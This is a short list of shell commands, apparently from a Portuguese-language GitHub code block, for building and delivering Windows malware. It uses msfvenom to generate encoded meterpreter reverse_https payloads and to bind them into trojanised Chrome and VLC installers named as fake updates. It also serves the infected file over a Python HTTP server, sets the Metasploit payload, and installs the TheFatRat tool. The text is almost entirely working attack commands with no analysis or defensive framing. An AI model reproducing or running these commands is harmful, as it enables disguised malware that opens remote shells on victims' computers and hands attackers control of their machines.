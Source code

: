 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.137 LPORT=443 -f exe -x ChromeSetup.exe -o chrome_infectado.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<seu_ip> LPORT=443 -f exe -x vlc_setup.exe -o vlc_infectado.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

http://192.168.1.137:8080/vlc_infectado.exe


wget https://get.videolan.org/vlc/3.0.20/win64/vlc-3.0.20-win64.exe -O vlc_setup.exe

set PAYLOAD windows/x64/meterpreter/reverse_https


git clone https://github.com/Screetsec/TheFatRat.git
cd TheFatRat
chmod +x setup.sh && sudo ./setup.sh


sudo ./fatrat

